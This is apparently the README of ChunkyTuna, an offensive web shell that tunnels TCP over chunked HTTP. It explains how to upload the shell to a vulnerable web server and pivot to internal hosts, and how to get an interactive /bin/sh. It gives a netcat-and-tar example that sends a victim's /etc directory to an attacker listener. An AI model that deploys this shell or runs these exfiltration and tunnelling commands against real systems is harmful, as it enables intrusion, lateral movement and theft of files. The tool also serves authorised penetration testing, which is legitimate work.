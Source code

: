 # ChunkyTuna

An evolved webshell user 'Chunked transfer encoding' HTTP providing:

 * Tunneling of TCP streams over HTTP
 * Interactive webshell with no reverse connections

For details see [Secarma's blog](https://blog.secarma.co.uk/labs/chunkytuna-a-web-shell-evolved).

Inspired by [Tunna](https://github.com/SECFORCE/Tunna/).

Author: Lorenzo Grespan
Initial PoC: Sam T.

Modalities:

 *  Server connects to target directly ("Connect")
 *  Server listens for connections from target ("Listen")
 *  Server executes commands locally ("eXecute")

## Requirements:

 * A vulnerable webserver with file upload (JSP, PHP or ASPX)
 * Python > 3.x

For testing:

 * Docker or Windows Server with IIS

# Usage

**IMPORTANT** Set a password so your webshell can only be used by you:

 1. Edit the python client `chunkytuna.py`, search for the first line starting with `PASSWORD`, and set a new password 
 2. Edit the webshell, search for the line containing `X-Pwd` and set the same password you set in the python client

Then, upload the webshell on the vulnerable server.

## Connect mode

Mode 'C': webshell *connects* to the target:

	./chunkytuna.py http://$WEBSERVER:$WEBPORT/$PATH_TO_WEBSHELL -r 127.0.0.1:12345 -t $TARGET:$TARGETPORT C

Where:

 * `$TARGET` and `$TARGETPORT` are the system in the same network as the webserver, e.g. 192.168.1.42:80
 * `$WEBSERVER` and `$WEBPORT` are self-explanatory
 * `$PATH_TO_WEBSHELL` is the path to the uploaded file e.g. `/webapps/foo/bar/chunkytuyna.jsp`
 * The `C` stands for connect

Then connect to `localhost:12345` with e.g. a web browser, ssh client, etc; the connection will be encapsulated over HTTP and sent to `$TARGETPORT` on $TARGET`.

[Demo](https://youtu.be/gV3TIKi_ewg)

## Listening mode (for exfil etc.)

Mode 'L': webshell *listens* for connections from a target:

	./chunkytuna.py http://$WEBSERVER:$WEBPORT/$PATH_TO_WEBSHELL -r 127.0.0.1:1234 -t 0.0.0.0:12345 L
 
Where:

 * `0.0.0.0:12345` is the port **on the remote web server**
 
Requirement:

 * The "internal" IP address of the webserver

Then:

 * Open a listener on port `1234`
 * Have your victim connect to port 12345 of the webserver (that is the internal IP)

Example:

 * Listen with:

	    mkdir -p exfil ; nc -lnvp 1234 | tar xf - -C exfil

 * On the victim side run:

	    tar cf - /etc | nc $WEBSERVER_INTERNAL_IP 12345

[Demo](https://youtu.be/5Q_b5VU04lk)



## Execution of commands

Mode 'X': run commands on the webserver:

	./chunkytuna.py http://$WEBSERVER:WEBPORT/$PATH_TO_WEBSHELL X -r 127.0.0.1:12345 -t /bin/sh

Then connect to `localhost:12345` and enjoy a shell :)

[Demo](https://youtu.be/7iVEV6pepR8)


# Miscellanea

## Docker stuff

To test ChunkyTuna locally, use the Docker containers provided in each directory: `asp/Docker`, `jsp/Docker`, `php/Docker`. There's a convenience script called `build-and-run-docker.sh` that sets up the environment for you. 

To find the IP of each container use `demo/get-container-ip.sh` followed by the name of the container (e.g. `target`, `listener-jsp`, `listener-php` etc.).

To log on a Docker container to perform e.g. emergency maintenance or run netcat:

    docker exec -it listener-jsp /bin/bash

## Testing

For unit testing, run:

    python3 -m unittest

